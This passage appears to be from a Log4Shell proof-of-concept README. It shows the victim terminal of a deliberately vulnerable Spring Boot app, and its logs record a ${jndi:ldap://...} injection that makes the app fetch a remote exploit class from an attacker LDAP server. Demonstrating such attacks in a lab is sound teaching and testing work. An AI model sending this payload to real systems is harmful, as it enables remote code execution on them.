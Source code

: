 ### Termimal 2 (victim)

```
$ docker run --network=host --name vulnerable-app --rm vulnerable-app

  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::                (v2.6.1)

2021-12-29 17:56:49.808  INFO 1 --- [           main] f.c.l.v.VulnerableAppApplication         : Starting VulnerableAppApplication using Java 11.0.8-internal on fc with PID 1 (/app/spring-boot-application.jar started by ? in /)
2021-12-29 17:56:49.813  INFO 1 --- [           main] f.c.l.v.VulnerableAppApplication         : No active profile set, falling back to default profiles: default
2021-12-29 17:56:50.275  INFO 1 --- [           main] o.s.b.w.e.t.TomcatWebServer              : Tomcat initialized with port(s): 8080 (http)
2021-12-29 17:56:50.285  INFO 1 --- [           main] o.a.c.c.StandardService                  : Starting service [Tomcat]
2021-12-29 17:56:50.285  INFO 1 --- [           main] o.a.c.c.StandardEngine                   : Starting Servlet engine: [Apache Tomcat/9.0.55]
2021-12-29 17:56:50.311  INFO 1 --- [           main] o.a.c.c.C.[.[.[/]                        : Initializing Spring embedded WebApplicationContext
2021-12-29 17:56:50.311  INFO 1 --- [           main] w.s.c.ServletWebServerApplicationContext : Root WebApplicationContext: initialization completed in 475 ms
2021-12-29 17:56:50.471  INFO 1 --- [           main] o.s.b.w.e.t.TomcatWebServer              : Tomcat started on port(s): 8080 (http) with context path ''
2021-12-29 17:56:50.477  INFO 1 --- [           main] f.c.l.v.VulnerableAppApplication         : Started VulnerableAppApplication in 0.909 seconds (JVM running for 1.421)
2021-12-29 17:56:55.762  INFO 1 --- [nio-8080-exec-1] o.a.c.c.C.[.[.[/]                        : Initializing Spring DispatcherServlet 'dispatcherServlet'
2021-12-29 17:56:55.763  INFO 1 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : Initializing Servlet 'dispatcherServlet'
2021-12-29 17:56:55.764  INFO 1 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : Completed initialization in 1 ms

2021-12-29 17:56:26,462 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap://10.100.101.100:1389/syqot1]. javax.naming.NamingException: problem generating object using object factory [Root exception is java.lang.ClassCastException: class ExecTemplateJDK8 cannot be cast to class javax.naming.spi.ObjectFactory (ExecTemplateJDK8 is in unnamed module of loader java.net.FactoryURLClassLoader @4653cf8c; javax.naming.spi.ObjectFactory is in module java.naming of loader 'bootstrap')]; remaining name '6qzeif'

... long stack trace ...

2021-12-29 17:56:26.420  INFO 1 --- [nio-8080-exec-1] HelloWorld                               : Received a request for API version ${jndi:ldap://10.100.101.100:1389/6qzeif}
```
